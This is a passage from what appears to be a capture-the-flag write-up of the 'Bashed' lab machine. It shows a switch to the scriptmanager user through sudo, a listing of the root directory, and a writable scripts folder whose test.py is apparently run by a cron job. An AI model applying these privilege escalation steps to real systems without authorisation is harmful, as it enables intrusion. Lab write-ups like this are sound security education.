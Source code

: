 This means that we can upgrade to a shell as scriptmanager with the following command: `$ sudo -u scriptmanager /bin/bash`.

```bash
scriptmanager@bashed:/dev/shm/$ cd /
scriptmanager@bashed:/$ ll
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ./
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ../
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin/
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot/
drwxr-xr-x  19 root          root           4240 Apr  2 04:14 dev/
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc/
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home/
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib/
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64/
drwx------   2 root          root          16384 Dec  4  2017 lost+found/
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media/
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt/
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt/
dr-xr-xr-x 116 root          root              0 Apr  2 04:14 proc/
drwx------   3 root          root           4096 Dec  4  2017 root/
drwxr-xr-x  18 root          root            500 Apr  2 04:14 run/
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin/
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts/
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv/
dr-xr-xr-x  13 root          root              0 Apr  2 04:14 sys/
drwxrwxrwt  10 root          root           4096 Apr  2 05:48 tmp/
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr/
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var/
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Now we see that we can access the `scripts` directory (which we could not with the `www-data` user.) Let's take a peek.

```bash
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
```

It seems like `test.py` is run, maybe by a cronjob or something. It currently just opens `test.txt` and writes a string to the file.
